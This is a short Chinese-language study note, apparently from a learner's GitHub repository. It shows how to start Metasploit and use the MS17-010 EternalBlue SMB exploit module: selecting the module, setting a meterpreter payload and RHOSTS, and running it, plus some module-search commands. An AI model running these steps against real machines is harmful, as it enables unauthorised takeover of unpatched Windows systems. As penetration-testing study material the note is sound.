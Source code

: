 # metasploit

### 启动metasploit

1. 启动终端
   
   ```shell
   msfcosnole
   ```

2. ```shell
   sudo su
   ```

3. 初始化metaspolit数据库
   
   ```shell
   msfdb init
   ```

### 永恒之蓝漏洞

永恒之蓝工具利用SMB漏洞获取系统最高操作权限

### metasploit攻击永恒之蓝

1. 使用模块
   
   ```shell
   use exploit/windows/smb/ms17_010_eternalblue
   ```

2. 设置必选项
+ 查看必选项（*required为yes的就是必选项）
  
  ```shell
  show options
  ```

+ 查找漏洞
  
  ```shell
  search ms17_010
  ```
  
  ![](kali.assets/2023-07-30-23-27-47-image.png)
  
  其中exploit为攻击模块，auxiliary为辅助模块（检测漏洞是否存在）

+ 使用模块
  
  ```shell
  # use+编号或漏洞全称
  use 0
  use exploit/windows/smb/ms17_010_eternalblue
  ```

+ 设置必选项
  
  ![](kali.assets/2023-07-30-23-59-57-image.png)
  
  发现需要设置目标设备的IP地址
  
  ![](kali.assets/2023-07-31-00-01-05-image.png)
  
  在早期版本中需要设置payload
  
  ```shell
  set payload windows/x64/meterpreter
  ```
  
  设置目标设备的ip地址
  
  ```shell
  set RHOSTS 127.0.0.1
  ```

+ 运行
  
  ```shell
  run
  ```

+ 其他操作
  
  ```shell
  back # 返回主菜单
  exit # 退出msfconsole 
  search:linux # 查找linux漏洞
  search name:mysql type:exploit # 查找mysql漏洞类型是exp
  search cve:CVE-2017-8464 type:exploit # 查找cve可执行exp漏洞
  ```

+ 

